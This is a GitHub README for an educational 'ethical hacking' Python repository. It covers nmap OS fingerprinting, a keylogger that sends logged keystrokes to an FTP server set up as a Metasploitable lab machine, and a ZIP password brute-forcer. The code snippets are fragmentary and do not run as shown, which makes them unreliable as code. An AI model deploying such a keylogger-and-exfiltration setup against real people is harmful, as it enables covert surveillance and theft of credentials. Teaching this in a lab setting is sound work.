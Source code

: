 # Ethical Hacking with Python

Ethical Hacking refers to the process of performing attacks on computer systems and networks to discover potential security weaknesses and help clients improve their security. It is common for ethical hackers to automate structured processes by writing their own scripts.

Python is a widely-used general-purpose, open-source, object-oriented HLL with libraries that can be used for hacking, making it ideal for implementing automation. Python's large community makes doubt resolution fast and easy.

This repository contains python3 scripts for automating basic tasks such as [OS fingerprinting](#os-fingerprinting), [keylogging](#keylogging), and [brute-forcing protected passwords](#bruteforce-protected-passwords). All instructions regarding customization have been provided in the scripts themselves.

## OS Fingerprinting

OS fingerprinting is the process of determining the operating system running on a system. By determining the OS of a system, tailor-made attacks can be launched against the target using known vulnerabilities.

In this script, the python3-nmap library has been used to bring the functionalities of Nmap to Python. Nmap is an open-source security auditing and network mapping tool that can "detect or diagnose services that are running on an Internet-connected system by a network administrator in their networked system". For more information, visit

https://nmap.org/book/osdetect-fingerprint-format.html

### Installation

```bash
pip install python3-nmap
```

### Usage

```python
import nmap    # import the nmap module
import sys     # import the sys module
import time    # import the time module

nm_scan = nmap.PortScanner() # initialise the Nmap PortScanner object for scanning
nm_scanner= nm_scan.scan(sys.argv[1],'80',arguments='-O')    # scan port 80 of target IP obtained using sys.argv[1]
with open("%s.txt"%sys.argv[1], 'w') as f:
    f.write(host_status+port_status+scan_method+os_guess)
    f.write("\nReport generated at: "+time.strftime("%Y-%m-%d_%H:%M:%S GMT", time.gmtime())) # generate timestamp
```

To run the script, open a terminal in the current directory and enter 

```bash
python os_fingerprint.py <target IP>
```

Here, <target IP> will be replaced by your target's IP address, and utilized as sys.argv[1] in the script. Before running the script, update the Environment Variables on your system

## Keylogging

Keystroke loggers, or keyloggers, are pieces of software that can log (and thus, track) the keys being pressed on a keyboard, in order to monitor the actions of the target.

In this script, pynput.keyboard, ftplib and logging modules of Python have been used to create a keylogger, store its results, and integrate FTP into it. No additional installations are required, as these modules are built-in.

The pynput package can control and monitor input devices, as explained on

https://pynput.readthedocs.io/en/latest/keyboard.html

File Transfer Protocol (FTP) is an internet protocol provided by TCP/IP used for transmitting files from one host to another. The ftplib module is used to implement the client side of the FTP protocol. For more information, visit

https://docs.python.org/3/library/ftplib.html

The logging module allows writing status messages to output streams such as files. Read about it on

https://docs.python.org/3/library/logging.html

### Usage

```python
from pynput.keyboard import Key, Listener   # import Key and Listener modules from pynput.keyboard package
import ftplib                               # import the ftplib module
import logging                              # import the logging module

def onKeyPress(Key):
    try:
        logging.info(str(Key)) # creates a definition for keypresses and takes the key as a parameter

sess= ftplib.FTP("", "", "")    # creates a new instance of the FTP class and makes a connection when host is provided
                                # insert target IP, username, password
```

In this script, a metasploitable machine is used as the FTP server where the file with the pressed keys exist. The IP address of the machine needs to be the same as the address in the script. To setup a metasploitable machine, follow this tutorial:

https://www.thesecuritygeeks.com/security/install-metasploitable-2-in-virtual-box/

The default username and password are "msfadmin". The machine's IP address can be found out by running the "ifconfig" command on it. Make sure your virtual machine is online before running this script on your local machine.

After the script has finished running, run the "ls -a" command on the virtual machine to check if the keylogger results have been shared with it or not. The original .txt file will be in the same directory as the script, on your local machine, and its copy should be present in the metasploitable machine.

## Bruteforce Protected Passwords

Bruteforcing is the process of attacking static parameters with several parameters to compare and match. Here, the parameter will be a protected password. This script uses the zipfile and argparse python modules for this process.

The zipfile module facilitates the creating, extracting, reading and writing to ZIP archives. The ZipFile() function returns a string or file object. For details, visit

https://docs.python.org/3/library/zipfile.html

The argparse module improves interaction by generating help, usage and error messages according to command-line arguments entered by the user. To see how this works, check

https://docs.python.org/3/library/argparse.html

### Usage

```python
from zipfile import ZipFile  # import the ZipFile module
import argparse              # import the argparse module

parser= argparse.ArgumentParser(description="\nUsage: python <brutefile.py> -z <zipfile.zip> -p <passwordfile.txt>")
parser.add_argument("-z", dest="ziparchive", help="Zip archive file")
parser.add_argument("-p", dest="passfile", help="Password file")
parsed_args= parser.parse_args()
ziparchive= ZipFile(parsed_args.ziparchive)

# Replace <brutefile.py> with the program name, <zipfile.py> with the target and <passwordfile.txt> with the list of passwords 
# -z and -p are arguments for ZipFile()
```
